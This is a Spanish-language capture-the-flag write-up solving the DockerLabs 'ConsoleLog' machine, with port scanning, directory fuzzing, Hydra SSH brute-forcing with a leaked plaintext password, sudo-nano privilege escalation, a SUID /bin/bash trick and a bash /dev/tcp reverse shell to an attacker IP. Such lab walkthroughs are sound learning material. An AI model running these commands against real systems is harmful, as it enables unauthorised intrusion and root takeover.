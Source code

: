 # Console Log

En esta lectura se documentara el paso a paso para resolver la maquina ConsoleLog de la plataforma DockerLabs

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image.png)

**Descargamos y desplegamos :** 

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%201.png)

Con ping comprobamos que la misma esta activa, el TTL de 64 nos indica que es una maquina Linux : 

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%202.png)

## Enumeración

Realizamos un escaneo con Nmap utilizando un Syn Scan, el cual es más rápido y discreto en entornos reales debido a que no completa el saludo de tres vías. Esto nos permite detectar puertos abiertos de manera eficiente sin establecer conexiones completas, reduciendo así la probabilidad de ser detectados.

```jsx
nmap -sS -p- --open -Pn -n --min-rate=5000 172.17.0.2
```

Encontramos abiertos los siguientes puertos : 

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%203.png)

Realizamos un nuevo escaneo con Nmap, esta vez enfocado únicamente en los puertos abiertos y utilizando el parámetro `-A`. Este parámetro ejecuta un conjunto de scripts de Nmap que permite identificar las versiones de los servicios y del sistema operativo en ejecución."

```bash
nmap -A -p 80,3000,5000 -Pn -n 172.17.0.2
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%204.png)

Notamos que los primeros son dos paginas web http y el ultimo es ssh pero en un puerto no estándar

Consultamos a la herramienta **`whatweb`** para ver con que tecnologías esta diseñada la web.

```bash
whatweb http::172.17.0.2
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%205.png)

Vamos a ingresar al puerto 80 haber que encontramos : 

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%206.png)

## Explotación

Al ver el código fuente de este sitio, descubrimos un archivo “js” con un token, lo que podría tratarse de una vulnerabilidad a mitigar o informar si esto fuese un caso real al tratarse de data sensible expuesta.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%207.png)

Al revisar este archivo vemos la siguiente información que nos podría llegar a ser útil, por lo que la guardaremos.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%208.png)

Ingresamos al segundo puerto abierto para visualizar su contenido pero de momento no es posible acceder:

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%209.png)

Al hacer fuzzing encontramos el directorio backend con archivos útiles. Para esto use la herramienta `gobuster`.

**Gobuster** es una herramienta de fuerza bruta utilizada para descubrir directorios, archivos, subdominios, y hosts virtuales ocultos en un servidor web. Funciona utilizando una lista de palabras (wordlist) para realizar solicitudes repetidas al servidor, lo que permite identificar recursos no visibles o no indexados.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2010.png)

De estos directorios encontrados con ese diccionario vamos a revisar `/backend` que parece el mas interesante.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2011.png)

Encontramos este server.js que me da mucha curiosidad…

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2012.png)

esa contraseña en texto plano ahí ubicada es muy rara, tenemos un puerto con ssh abierto por lo que vamos a intentar averiguar con hydra si algún usuario la esta utilizando :

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p password ssh://172.17.0.2:5000 -t 64
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2013.png)

Encontramos al usuario lovely con la contraseña conseguida porque estaba expuesta en texto plano, por lo que nos conectamos mediante ssh al puerto indicado en el escaneo.

```bash
ssh lovely@172.17.0.2 -p 5000
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2014.png)

## Post - explotación / Escalada de privilegios

Realizamos la escalada privilegios, vamos a enumerar los permisos de sudo que tiene el usuario actual, esto lo hacemos con `sudo -l`
El comando `sudo -l` se utiliza para listar los privilegios de `sudo` que tiene el usuario actual.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2015.png)

Descubrimos que tiene permisos de sudo para nano por lo que vamos a buscar el en sitio “[https://gtfobins.github.io/](https://gtfobins.github.io/)” si hay una manera de escalar a root con nano.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2016.png)

Encontramos esta manera que al ejecutarla nos permite ejecutar comandos como root pero de una manera un poco incomoda…

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2017.png)

Una vez obtenida de esta manera una consola inestable de root tenemos dos opciones: 

La primera cambiarle los permiso a la bash con **`chmod u+s /bin/bash`**para que
 establecer el bit SUID (Set User ID) en el archivo `/bin/bash`. Esto sirve para que ue cuando cualquier usuario ejecuta el archivo `/bin/bash`, el proceso que se crea tiene los privilegios del propietario del archivo, que en este caso es típicamente el usuario root. Así, cualquier usuario que ejecute `/bin/bash` obtendría una shell con privilegios de root.

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2018.png)

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2019.png)

La segunda es mandar una **shell** reversa a un puerto de nuestra maquina atacante y ponernos en escucha con netcat a dicho puerto.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.203/444 0>&1'
```

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2020.png)

Desde nuestra maquina atacante usamos

```bash
nc -nlvp 444
```

**Esta es otra alternativa  pero se considera mas estable la primera.**

![image.png](Console%20Log%20c8effc909a3f432cb5e414be49210889/image%2021.png)

**PWNED**!!!

<aside>
💡 Muchas gracias por leer, este es mi primer WriteUp para la plataforma DockerLabs, estaré subiendo mas en estos días, mientras busco seguir aprendiendo.

</aside>

**Saludos!!!**